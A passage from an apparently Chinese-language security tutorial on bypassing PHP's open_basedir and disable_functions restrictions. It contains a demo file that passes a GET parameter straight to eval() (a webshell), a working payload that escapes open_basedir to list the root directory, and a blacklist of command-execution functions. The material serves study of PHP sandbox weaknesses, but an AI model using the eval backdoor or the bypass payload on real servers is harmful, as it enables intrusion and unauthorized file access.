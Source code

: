 `ini_set`i用来设置php.ini的值，无需打开php.ini文件，就能修改配置。函数原型为:

```php
ini_set(string $option, string $value): string|false
```

设置指定配置选项的值。这个选项会在脚本运行时保持新的值，并在脚本结束时恢复。

bypass原理大概open\_basedir设计逻辑的安全问题  
分析过程参考:[从PHP底层看open\_basedir bypass](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/)

一个小demo，将该文件放到网站目录下:

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

构造payload

```php
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-15c6b9de9f60d61748fbd3897af60bbbdd73fc3f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-15c6b9de9f60d61748fbd3897af60bbbdd73fc3f.png)  
open\_basedir被设置成了'\\',失去原有的限制。

bypass disable\_functions
=========================

disable\_functions
------------------

disable\_functions是php.ini中的一个设置选项，可以用来设置PHP环境禁止使用某些函数，通常是网站管理员为了安全起见，用来禁用某些危险的命令执行函数等。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f5b298dc9c356a214a0220d1d2f103faea061f37.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f5b298dc9c356a214a0220d1d2f103faea061f37.png)

比如拿到一个webshell,用管理工具去连接,执行命令发现`ret=127`,实际上就是因为被这个限制的原因

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dc2bf483cc00200c44940106a3a472957a93b665.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dc2bf483cc00200c44940106a3a472957a93b665.png)

黑名单
---

```php
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open
```
